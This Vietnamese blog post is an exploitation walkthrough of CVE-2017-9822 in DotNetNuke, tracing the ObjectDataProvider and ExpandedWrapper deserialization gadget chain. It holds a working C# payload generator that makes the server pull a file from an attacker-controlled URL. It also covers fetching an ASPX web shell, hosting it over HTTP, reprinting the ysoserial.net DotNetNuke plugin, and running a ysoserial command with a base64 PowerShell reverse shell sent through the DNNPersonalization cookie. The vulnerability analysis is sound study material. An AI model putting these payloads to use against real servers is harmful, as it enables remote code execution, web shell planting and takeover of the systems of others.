Trong môi trường .NET, thay vì chỉ phụ thuộc vào các class có sẵn trong mã nguồn ứng dụng, ta có thể tận dụng các gadget đến từ chính .NET Framework. Một trong những gadget phổ biến và đã được nghiên cứu kỹ lưỡng là ObjectDataProvider (Class này được định nghĩa và triển khai bên trong namespace System.Windows.Data, và thuộc về assembly C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll.), từng được đề cập trong nghiên cứu "Friday the 13th: JSON Attacks" tại Black Hat [3].

Về lý thuyết, hoàn toàn có thể tìm gadget chain ngay trong mã nguồn của ứng dụng (ví dụ như DNN). Tuy nhiên, trên thực tế điều này thường không khả thi. Nguyên nhân là các class trong ứng dụng hiếm khi có side-effect đủ mạnh để dẫn đến thực thi code, hoặc yêu cầu những điều kiện rất phức tạp để kích hoạt.

Ngược lại, các gadget có sẵn trong .NET Framework như ObjectDataProvider đã được phân tích và kiểm chứng từ trước, giúp việc khai thác trở nên đơn giản và đáng tin cậy hơn, đồng thời không phụ thuộc vào logic nội tại của ứng dụng.

Vì vậy, trong kịch bản này, ứng dụng chỉ đóng vai trò cung cấp deserialization sink, còn toàn bộ quá trình kích hoạt hành vi nguy hiểm sẽ được thực hiện thông qua các gadget "bên ngoài" từ runtime.



Thay vì trace ngẫu nhiên, tôi tập trung vào các property có khả năng ảnh hưởng đến việc thực thi method, điển hình là MethodName. Việc setter của property này trigger một chuỗi xử lý nội bộ (Refresh → BeginQuery → QueryWorker) cho thấy nó không chỉ đơn thuần là một field lưu trữ, mà có thể kích hoạt một luồng xử lý phía sau. Tuy nhiên, việc thực thi method chỉ xảy ra khi object ở trạng thái hợp lệ (đã có MethodName và ObjectInstance/ObjectType). Bằng cách tiếp tục trace vào các method override của ObjectDataProvider, đặc biệt là InvokeMethodOnInstance, có thể xác định đây chính là điểm thực thi thông qua reflection.

Việc thiết lập MethodName không chỉ dừng lại ở việc gán giá trị, mà còn kích hoạt Refresh(). Đây là bước khởi đầu của một chuỗi xử lý, trong đó việc thực thi chỉ xảy ra khi các thành phần cần thiết (ObjectInstance/ObjectType và MethodParameters) đã được thiết lập đầy đủ.



Trace tiếp thì ta thấy được định nghĩa của hàm refersh



Method này tiếp tục gọi BeginQuery(). Tại lớp cha (DataSourceProvider), BeginQuery() không có logic gì đáng kể:



Tuy nhiên, điểm quan trọng nằm ở việc ObjectDataProvider đã override lại method này (ta có thể thấy rằng objectdata source provide kế thừa từ datasource provide). Tại đây, luồng thực thi được chuyển tiếp đến QueryWorker() - một method đóng vai trò trung tâm trong quá trình xử lý.



QueryWorker - điểm trung gian quan trọng

Trong QueryWorker(), nếu MethodName không rỗng, hệ thống sẽ tiếp tục gọi:

```
obj2 = this.InvokeMethodOnInstance(out ex);
```

Điều này cho thấy việc set MethodName thực sự có ảnh hưởng trực tiếp đến việc một method khác sẽ được thực thi.



Điểm thực thi: InvokeMethodOnInstance

Tiếp tục trace vào InvokeMethodOnInstance():

```
result = this._objectType.InvokeMember(
    this.MethodName,
    BindingFlags.Instance | BindingFlags.Static | BindingFlags.Public | 
    BindingFlags.FlattenHierarchy | BindingFlags.InvokeMethod | 
    BindingFlags.OptionalParamBinding,
    null,
    this._objectInstance,
    array,
    CultureInfo.InvariantCulture
);
```

Đây chính là điểm mấu chốt.

Method này sử dụng reflection để gọi một method có tên được lưu trong MethodName trên _objectInstance, với các tham số tương ứng.

Trong thế giới của Insecure Deserialization trên .NET, bài báo cáo "Friday the 13th: JSON Attacks" tại BlackHat 2017 đã thay đổi hoàn toàn cuộc chơi. Một trong những "ngôi sao" sáng nhất được nhắc đến chính là Gadget Chain mang tên ObjectDataProvider.

Tuy nhiên, việc hiểu được ý tưởng trên giấy và việc tự tay viết ra một đoạn code sinh payload chạy mượt mà trên server lại là hai câu chuyện hoàn toàn khác nhau. Trong bài viết này, thông qua việc phân tích lỗ hổng CVE-2017-9822 trên DotNetNuke (DNN), chúng ta sẽ cùng đi từ gốc rễ lý thuyết cho đến cách hiện thực hóa nó bằng C#.

Để khai thác được, trước tiên cần hiểu rõ cơ chế hoạt động của gadget này.

ObjectDataProvider là một class thuộc thư viện WPF (Windows Presentation Foundation) của .NET. Mục đích ban đầu của nó là giúp giao diện người dùng (UI) gọi các hàm của một đối tượng để lấy dữ liệu. Tuy nhiên, nó lại mang trong mình một cơ chế cực kỳ nguy hiểm khi kết hợp với quá trình Deserialization.

Theo mã nguồn của ObjectDataProvider, class này có một hàm nội bộ tên là Refresh(). Hàm này đóng vai trò khởi động quá trình thực thi phương thức đã được cấu hình, thông qua một chuỗi xử lý nội bộ. Điều đáng sợ là Refresh() sẽ tự động được kích hoạt (trigger) ngay khi một trong hai thuộc tính sau được gán giá trị (thông qua hàm Setter):

+ MethodName (Tên hàm muốn gọi)

+ ObjectInstance (Đối tượng chứa hàm đó)

Nhưng có một ngoại lệ chết người: Việc truyền danh sách tham số vào thuộc tính MethodParameters lại KHÔNG kích hoạt hàm Refresh().

→ Bài học rút ra: Trong trường hợp của ObjectDataProvider, thứ tự gán giá trị khi Deserialize có ảnh hưởng trực tiếp đến việc exploit có thành công hay không! Bạn phải gán tên hàm, sau đó nạp đủ tham số, và cuối cùng mới gán ObjectInstance để bóp cò. Nếu sai thứ tự, method có thể bị gọi khi chưa có đủ tham số hoặc object hợp lệ, dẫn đến exception và làm gián đoạn toàn bộ gadget chain, khiến quá trình khai thác thất bại.

---

### 7.2. Bypass XmlSerializer với ExpandedWrapper, Craft payload và kiểm soát thứ tự deserialize

DNN (và XmlSerializer nói chung) không cho phép deserialize trực tiếp một object tùy ý nếu không đúng schema/type mong đợi. XmlSerializer yêu cầu kiểu dữ liệu (type) phải hợp lệ và đúng schema để có thể tiến hành deserialize.

Để vượt qua hàng rào này, chúng ta dùng một "con ngựa thành Troy" tên là ExpandedWrapper (thuộc System.Data.Services). Lớp này hợp lệ và cho phép bao bọc một đối tượng khác ở bên trong thông qua thuộc tính mở rộng ProjectedProperty0.

Ý tưởng ở đây là: Chúng ta ép DNN deserialize cái vỏ ExpandedWrapper. Khi quá trình này đi sâu vào thuộc tính ProjectedProperty0, nó sẽ tiếp tục deserialize vào thuộc tính này và vô tình kích hoạt ObjectDataProvider mà chúng ta đã nhúng vào bên trong.

Bây giờ chúng ta đã hiểu bản chất: sử dụng ExpandedWrapper để bọc ObjectDataProvider và kiểm soát thứ tự deserialize nhằm đảm bảo gadget chain được kích hoạt đúng thời điểm.



Gadget chain này mô tả toàn bộ hành trình từ một giá trị tưởng chừng vô hại trong cookie cho đến khi thực thi method trên server. Điểm khởi đầu là cookie DNNPersonalization, nơi attacker có thể nhúng XML tùy ý. Khi server đọc cookie này, dữ liệu được đưa vào XmlSerializer.Deserialize, và đặc biệt là kiểu object sẽ được khởi tạo lại được lấy trực tiếp từ Type.GetType(typeName). Điều này cho phép attacker không chỉ kiểm soát dữ liệu, mà còn kiểm soát loại object được deserialize.

Để vượt qua ràng buộc schema của XmlSerializer, attacker sử dụng ExpandedWrapper như một lớp"vỏ bọc hợp lệ". Khi XmlSerializer xử lý object này, nó sẽ tiếp tục đi sâu vào property ProjectedProperty0, và tại đây, một object ObjectDataProvider được khởi tạo. Đây chính là gadget trung tâm của chain, nơi mọi hành vi nguy hiểm sẽ được kích hoạt.

Trong quá trình deserialize, các property của ObjectDataProvider được gán lần lượt theo thứ tự xuất hiện trong XML. Khi MethodName được set, hàm Refresh() bị trigger lần đầu, nhưng chưa đủ điều kiện để thực thi do thiếu ObjectInstance. Tiếp theo, MethodParameters chỉ đơn thuần được lưu lại mà không kích hoạt gì. Cuối cùng, khi ObjectInstance được gán, Refresh() được gọi lần nữa - lúc này toàn bộ điều kiện đã đầy đủ, và chain bắt đầu thực thi thực sự.

Từ đây, luồng xử lý nội bộ của ObjectDataProvider được kích hoạt: Refresh() → BeginQuery() → QueryWorker(). Trong QueryWorker, nếu MethodName tồn tại, hệ thống sẽ gọi InvokeMethodOnInstance, nơi method được thực thi thông qua reflection (InvokeMember). Đây là điểm mấu chốt, vì attacker có thể chỉ định method tùy ý cùng với tham số đã chuẩn bị trước đó.

Trong kịch bản này, method được gọi là FileSystemUtils.PullFile, cho phép server tải một file từ URL do attacker kiểm soát và ghi xuống hệ thống. Kết quả là attacker có thể upload web shell hoặc thực hiện các hành vi dẫn đến Remote Code Execution (RCE). Toàn bộ quá trình này diễn ra chỉ thông qua một lần deserialize - biến nó từ một thao tác xử lý dữ liệu thành một chuỗi thực thi do attacker điều khiển hoàn toàn.

Vậy làm sao để code? Rất nhiều người sẽ nghĩ ngay đến việc khởi tạo Object trong C# rồi dùng hàm XmlSerializer.Serialize(obj) để xuất ra XML cho "nhàn". Đừng làm vậy! Dưới đây là đoạn code chuẩn xác để sinh ra Payload. Hãy chú ý cách tôi sử dụng String Interpolation (ghép chuỗi thủ công) thay vì dùng thư viện Serialize.

```
using System;

namespace DNN_Payload_Generator
{
    class Program
    {
        static void Main(string[] args)
        {
            string oastUrl = "http://x86p12ffhyxw8kc8se97u5txdojf7hv6.oastify.com/test.txt";
            string dummyDestPath = "C:\\Windows\\Temp\\oast_test.txt";

            string payload = $@"<profile>
    <item key=""name1: key1"" type=""System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral,PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"">
        <ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd=""http://www.w3.org/2001/XMLSchema"" xmlns:xsi=""http://www.w3.org/2001/XMLSchema-instance"">
            <ExpandedElement />
            <ProjectedProperty0>
                <MethodName>PullFile</MethodName>
                <MethodParameters>
                    <anyType xsi:type=""xsd:string"">{oastUrl}</anyType>
                    <anyType xsi:type=""xsd:string"">{dummyDestPath}</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type=""FileSystemUtils""></ObjectInstance>
            </ProjectedProperty0>
        </ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
    </item>
</profile>";

            Console.WriteLine(payload);
            Console.ReadLine();
        }
    }
}
```

Sự khác biệt giữa một Payload "sát thủ" và một mớ XML vô dụng nằm trọn ở các dòng chữ bên trong thẻ <ProjectedProperty0>.

Tại sao đoạn code hardcode chuỗi của tôi lại hoạt động?

Bằng cách hardcode chuỗi, tôi ép XmlSerializer của server xử lý XML theo đúng thứ tự mà chúng ta mong muốn

+ Đọc <MethodName>PullFile</MethodName>: Hàm Refresh() được gọi. Tuy nhiên lúc này chưa có ObjectInstance (đang null), nên hệ thống bỏ qua một cách an toàn (chưa đủ điều kiện để thực thi).

+ Đọc <MethodParameters>: Hai tham số {oastUrl} và {dummyDestPath} được nạp vào bộ nhớ. Như đã giải thích ở phần 1, bước này không kích hoạt Refresh(). Nạp đạn âm thầm.

+ Đọc <ObjectInstance xsi:type="FileSystemUtils">: Hàm Refresh() được gọi lần cuối. Lúc này, cả tên hàm và tham số đều đã sẵn sàng. BÙM! Tại thời điểm này, toàn bộ điều kiện đã thỏa mãn và phương thức PullFile được thực thi.

Tại sao dùng XmlSerializer.Serialize() (các case khác) lại thất bại?

Nếu bạn tạo Object trong C# rồi để tự thư viện .NET chuyển thành XML, XmlSerializer thường có thói quen tự động sắp xếp lại các thuộc tính (thường là theo bảng chữ cái hoặc ngẫu nhiên). Thẻ <ObjectInstance> rất hay bị đẩy lên đầu tiên, và <MethodParameters> bị vứt xuống cuối cùng.

Luồng deserialize lúc này sẽ bị phá vỡ hoàn toàn:

+ Đọc <ObjectInstance>: Refresh() được gọi. Nhưng chưa có MethodName, bỏ qua.

+ Đọc <MethodName>PullFile</MethodName>: Refresh() được gọi. Hệ thống cố gắng chạy hàm PullFile của FileSystemUtils. Tuy nhiên, chưa có tham số nào được nạp! Hàm này yêu cầu 2 tham số nhưng lại nhận được 0. Một lỗi (Exception) văng ra, ObjectDataProvider ngầm nuốt cái lỗi này và dừng lại.

+ Đọc <MethodParameters>: Các tham số được nạp vào, nhưng đã quá muộn. Refresh() không bao giờ được gọi lại nữa. Quá trình khai thác đi vào ngõ cụt.



Thành công trigger 404 và ứng dụng sẽ tiến hành deserialize payload mà chúng ta truyền vào và khi đó burp collab sẽ xuất hiện truy vấn dns do quá trình deserialize của server.

Tiếp tục với idea dó chúng ta sẽ tiến hành với 1 con shell aspx thì sao :">>, nghe thú vị nhỉ.

Tôi sẽ tiến hành lấy con shell này về:

```
https://raw.githubusercontent.com/xl7dev/WebShell/refs/heads/master/Aspx/ASPX%20Shell.aspx
```



Tiến hành tạo payload với link shell aspx này.



Bùm :))) méo được, quê vl.

À tôi nhớ rồi khi sử dụng HTTPS thì payload không hoạt động. Nguyên nhân có thể đến từ việc môi trường .NET trên target sử dụng phiên bản TLS cũ (ví dụ TLS 1.0/1.1), không tương thích với server đích, dẫn đến TLS handshake thất bại và request không thể được thực hiện.

Để bypass vấn đề này, chuyển sang sử dụng HTTP giúp bỏ qua TLS handshake. Khi đó, request được gửi thành công, payload được tải về và quá trình thực thi diễn ra như mong đợi.

Cùng kiểm chứng nhé.

Tôi sẽ tiến hành dựng http:

```
python -m http.server 8000
```

Sau khi chạy thì tôi sẽ có được 1 web server bằng http để host file shell của chúng ta.

```
python -m http.server 8000
```



Tiến hành serialize với web shell bằng http.



Vậy là thành công rồi nhé.

---

### 7.3. Mổ xẻ payload ysoserial.net và cơ chế Gadget Chain

```
using System.Collections.Generic;
using NDesk.Options;
using System;
using ysoserial.Generators;
using ysoserial.Helpers;
using System.Text;

namespace ysoserial.Plugins
{
    public class DotNetNukePlugin : IPlugin
    {
        static string mode = "";
        static string path = "";
        static string url = "";
        static string command = "";
        static bool minify = false;
        static bool useSimpleType = false;

        static OptionSet options = new OptionSet()
            {
                {"m|mode=", "the payload mode: read_file, write_file, run_command.", v => mode = v },
                {"c|command=", "the command to be executed in run_command mode.", v => command = v },
                {"u|url=", "the url to fetch the file from in write_file mode.", v => url = v },
                {"f|file=", "the file to read in read_file mode or the file to write to in write_file_mode.", v => path = v },
                {"minify", "Whether to minify the payloads where applicable (experimental). Default: false", v => minify =  v != null },
            };

        public string Name()
        {
            return "DotNetNuke";
        }

        public string Description()
        {
            return "Generates payload for DotNetNuke CVE-2017-9822";
        }

        public string Credit()
        {
            return "discovered by Oleksandr Mirosh and Alvaro Munoz, implemented by Alvaro Munoz, tested by @GlitchWitch";
        }

        public OptionSet Options()
        {
            return options;
        }

        public object Run(string[] args)
        {
            InputArgs inputArgs = new InputArgs();
            List<string> extra;
            try
            {
                extra = options.Parse(args);
                inputArgs.Cmd = command;
                inputArgs.Minify = minify;
                inputArgs.UseSimpleType = useSimpleType;
            }
            catch (OptionException e)
            {
                Console.Write("ysoserial: ");
                Console.WriteLine(e.Message);
                Console.WriteLine("Try 'ysoserial -p " + Name() + " --help' for more information.");
                System.Environment.Exit(-1);
            }
            string payload = "";

            if (mode == "write_file" && path != "" & url != "")
            {
                payload = @"<profile><item key=""name1: key1"" type=""System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089""><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd=""http://www.w3.org/2001/XMLSchema"" xmlns:xsi=""http://www.w3.org/2001/XMLSchema-instance""><ExpandedElement/><ProjectedProperty0><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type=""xsd:string"">" + url + @"</anyType><anyType xsi:type=""xsd:string"">" + path + @"</anyType></MethodParameters><ObjectInstance xsi:type=""FileSystemUtils""></ObjectInstance></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>";
            }
            else if (mode == "read_file" && path != "")
            {
                payload = @"<profile><item key=""name1: key1"" type=""System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089""><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd=""http://www.w3.org/2001/XMLSchema"" xmlns:xsi=""http://www.w3.org/2001/XMLSchema-instance""><ExpandedElement/><ProjectedProperty0><MethodName>WriteFile</MethodName><MethodParameters><anyType xsi:type=""xsd:string"">" + path + @"</anyType></MethodParameters><ObjectInstance xsi:type=""FileSystemUtils""></ObjectInstance></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>";
            }
            else if (mode == "run_command" && command != "")
            {
                /*
                byte[] osf = (byte[]) new TextFormattingRunPropertiesGenerator().GenerateWithNoTest("ObjectStateFormatter", inputArgs);
                string b64encoded = Convert.ToBase64String(osf);
                */
                string b64encoded = Encoding.UTF8.GetString((byte[]) new TextFormattingRunPropertiesGenerator().GenerateWithNoTest("LosFormatter", inputArgs)); // for us here LosFormatter works the same as ObjectStateFormatter - we don't use MAC in LosFormatter so it is the same as ObjectStateFormatter
                string prefix = @"<profile><item key=""key"" type=""System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089""><ExpandedWrapperOfObjectStateFormatterObjectDataProvider><ProjectedProperty0><ObjectInstance p3:type=""ObjectStateFormatter"" xmlns:p3=""http://www.w3.org/2001/XMLSchema-instance"" /><MethodName>Deserialize</MethodName><MethodParameters><anyType xmlns:q1=""http://www.w3.org/2001/XMLSchema"" p5:type=""q1:string"" xmlns:p5=""http://www.w3.org/2001/XMLSchema-instance"">";
                string suffix = @"</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfObjectStateFormatterObjectDataProvider></item></profile>";
                payload = prefix + b64encoded + suffix;
            }
            else
            {
                Console.Write("ysoserial: ");
                Console.WriteLine("Incorrect plugin mode/arguments combination");
                Console.WriteLine("Try 'ysoserial -p " + Name() + " --help' for more information.");
                System.Environment.Exit(-1);
            }

            if (minify)
            {
                payload = XmlHelper.Minify(payload, null, null);
            }

            return payload;

        }
    }
}
```

Đây chính là code của ysoserial.net, cùng phân tích xem nó sử dụng gadget chain như thế nào.



Gadget chain trong exploit này bắt đầu từ ExpandedWrapper<T1, T2>, một class nội bộ của .NET được lợi dụng để "wrap" nhiều object khác nhau vào một kiểu dữ liệu hợp lệ mà XmlSerializer có thể xử lý. Điều này cho phép attacker vượt qua các hạn chế về kiểu dữ liệu (type constraint) của XmlSerializer, vốn không hỗ trợ tốt các object phức tạp hoặc interface-based.

Trong quá trình deserialization, ObjectDataProvider đóng vai trò là trigger gadget. Class này cho phép chỉ định một method sẽ được tự động gọi trong quá trình khởi tạo object. Trong payload, attacker cấu hình để ObjectDataProvider gọi method Deserialize() trên một instance của ObjectStateFormatter, đồng thời truyền vào một chuỗi base64 độc hại.

Khi ObjectStateFormatter.Deserialize() được thực thi, nó sẽ tiếp tục deserialize payload bên trong mà không có bất kỳ cơ chế kiểm soát nào. Payload này được tạo bởi ysoserial.net, sử dụng gadget chain TextFormattingRunProperties.

Khác với XamlReader, gadget TextFormattingRunProperties không dựa trên việc parse XAML, mà khai thác các side-effect trong quá trình khởi tạo object của WPF để dẫn đến việc thực thi code.

Cuối cùng, toàn bộ chain dẫn đến việc thực thi lệnh tùy ý trên hệ thống (Remote Code Execution). Điểm đáng chú ý là attacker không cần upload file hay webshell, mà chỉ cần tận dụng các class có sẵn trong .NET để xây dựng một gadget chain hợp lệ, biến một lỗi deserialization thành một exploit RCE hoàn chỉnh.



Tiếp theo, tiến hành tạo reverse shell trỏ về máy attacker. Do mục tiêu chạy trên nền tảng .NET, ta sử dụng PowerShell reverse shell được encode base64 để dễ dàng nhúng vào payload. Một cách nhanh chóng là sử dụng công cụ tại `https://www.revshells.com/` để generate command phù hợp với IP và port của attacker.

```
.\ysoserial.exe -p DotNetNuke -m run_command -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgA1ACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```



Sau khi có payload PowerShell, ta sử dụng công cụ ysoserial.exe để đóng gói command này vào một gadget chain hợp lệ của DotNetNuke



Payload được tạo ra thực chất là một chuỗi XML đã được craft sẵn, chứa gadget chain dẫn đến việc thực thi lệnh khi server tiến hành deserialize.

Tiếp theo, gửi payload này đến server thông qua cookie DNNPersonalization. Khi request được xử lý (thường thông qua trang 404), ứng dụng sẽ tiến hành deserialize dữ liệu do attacker kiểm soát.

Tại thời điểm này, gadget chain được kích hoạt, PowerShell payload được thực thi, và reverse shell sẽ được thiết lập kết nối ngược về máy attacker.

Kết quả là attacker có thể thực thi lệnh từ xa trên hệ thống mục tiêu mà không cần upload bất kỳ file hay webshell nào, chỉ bằng cách khai thác quá trình deserialization.

Điều đáng chú ý là toàn bộ quá trình khai thác không phụ thuộc vào logic của ứng dụng, mà hoàn toàn dựa vào các gadget có sẵn trong .NET Framework. Điều này khiến việc vá lỗi trở nên khó khăn hơn, vì root cause nằm ở cách ứng dụng sử dụng cơ chế deserialization, không phải ở một đoạn code cụ thể.

Hết hơi với CVE này và hành trình với CVE này giống như debug một cơn ác mộng, càng đào sâu càng rối, nhưng đến lúc shell bật lên thì mọi sự mệt mỏi đều đáng giá, công sức bỏ ra cũng đáng ^^

---

## REFERENCE
[1]. https://nvd.nist.gov/vuln/detail/cve-2017-9822

[2]. https://www.digitalalphas.com/how-to-install-dotnetnuke-dnn/

[3]. https://blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf

[4]. https://www.kenmuse.com/blog/forcing-dotnet-debug-mode/

[5]. https://flylib.com/books/en/3.435.1.100/1/

[6]. https://studyres.com/doc/7759761/dotnetnuke-module-developers-guide

[7]. https://hackerone.com/reports/876708

[8]. https://hackerone.com/reports/2762119

[9]. https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization